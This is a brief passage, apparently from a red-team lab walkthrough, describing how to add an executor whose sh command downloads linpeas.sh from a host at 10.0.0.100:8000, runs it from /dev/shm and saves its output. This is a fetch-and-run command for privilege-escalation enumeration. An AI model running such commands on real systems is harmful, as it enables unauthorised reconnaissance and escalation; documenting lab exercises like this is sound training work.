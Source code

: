 ![image.png](image%2025.png)

Click Add Executor and put following details and click Create:

| Platform | linux |
| --- | --- |
| Executor | sh |
| Command | wget http://10.0.0.100:8000/linpeas.sh -O /dev/shm/linpeas.sh; sh /dev/shm/linpeas.sh | tee /dev/shm/linpeas.out |
| Timeout | 300 |
| Cleanup | rm -rf /dev/shm/linpeas.sh |
